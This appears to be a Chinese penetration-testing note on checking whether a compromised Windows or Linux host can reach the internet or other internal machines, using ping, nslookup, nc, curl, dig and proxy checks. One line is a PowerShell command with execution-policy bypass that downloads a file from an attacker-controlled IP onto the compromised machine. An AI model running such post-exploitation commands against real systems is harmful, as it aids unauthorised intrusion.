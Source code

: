 探测连通性指的是机器能否上外网或者是内网机器之间的互通性。

# 0x01 Windows


```
# 探测 ICMP 协议出网
ping ip or domain 

# 第一个参数是需要解析的域名，第二个参数是目标 DNS 服务器的 IP，可判断目标 IP 的53端口是否正常工作
nslookup baidu.com 10.10.10.128 # 第二个参数指定 DNS 服务器

arp -a  # 查看 ARP 缓存内容
net view # 显示当前域中的计算机列表
```

不依赖第三方工具探测 TCP/UDP 是否出网：

在攻击机器开一个 python HTTP Server，然后在失陷 Windows 机器上使用 Powershell 去下东西。如果不出网会报错：


```
powershell -nop -Exec Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://47.244.96.168:8888/readme.txt','readme.txt')
```


![title](https://leanote.com/api/file/getImage?fileId=5ed65aaaab644127c2001b3c)



# 0x02 Linux


```
#Linux bash
ping ip or domain 
```

```
nc -zv ip  port  # z选项：没有输入和输出的模式,v选项：显示详细信息
```
经我测试直接这样很慢，使用下面的参数选项快很多！

```
nc -znv -w 3 ip port
```

- -w 设置超时秒数。在测试链接的时候，如果你【没】使用 -w 这个超时选项，默认情况下 nc 会等待很久，然后才告诉你连接失败。如果你所处的网络环境稳定且高速（比如：局域网内），那么，你可以追加 `-w 选项`，设置一个比较小的超时值。在上面的例子中，超时值设为3秒。
- -n：由于测试的是【IP 地址】，用该选项告诉 nc，【无须】进行域名（DNS）解析；反之，如果你要测试的主机是基于【域名】，就【不能】用`选项 -n`。加上 -n 省略了 DNS 解析的步骤，速度快很多。
- 补充说明：UDP 端口测试。通常情况下，要测试的端口都是 TCP 协议的端口；如果你碰到特殊情况，需要测试某个 UDP 的端口是否可达。nc 同样能胜任。只需要追加 -u 选项。



![title](https://leanote.com/api/file/getImage?fileId=5ecfb019ab644131af001808)



```
curl ip:port
#默认为80端口，提示信息为拒绝连接，如果是其他错误，则可判断目标端口已开启
```
![title](https://leanote.com/api/file/getImage?fileId=5ecfb1aaab644133bf001930)




```
nslookup domain ip # domain 是需要解析的域名，IP是目标 DNS 服务器的 IP，可判断目标 IP 的53端口是否正常工作
如：nslookup 0day.org 127.0.0.1 


dig @ip domain #ip 部分为 DNS 服务器，domain 为待解析的域名，可判断目标 IP 的53端口是否正常工作
如：dig @127.0.0.1 0day.org
```



另外的一些技巧，某些场景中需要内网需要全部经过代理服务器才能出网，常见的判断方法：

```
# linux
ps -ef |grep ip #查看是否存在和其他机器端口的连接
#查看内网主机是否包含字符"proxy"的机器
#查看IE浏览器的直接代理
#根据pac文件查看代理机器

curl baidu.com # 不挂代理无法正常出网
curl -x 127.0.0.1:1080 baidu.com  #注意代理的目标，不一定是本机，挂代理时通，不挂代理时不通说明存在代理机器
```
注：`ps -aux` 和 `ps -ef` 的区别在于 `ps -aux` 更详细，`ps -ef` 少一些结果列。



# 参考文档：

1. [隐藏通信隧道技术](https://wuhash.com/2020-05-27.html?from=timeline#more)，在学安全的路上，伍默，2020年5月28日
2. [如何使用PAC文件“科学上网”](https://exp-team.github.io/blog/2017/01/13/tool/using-pac/)
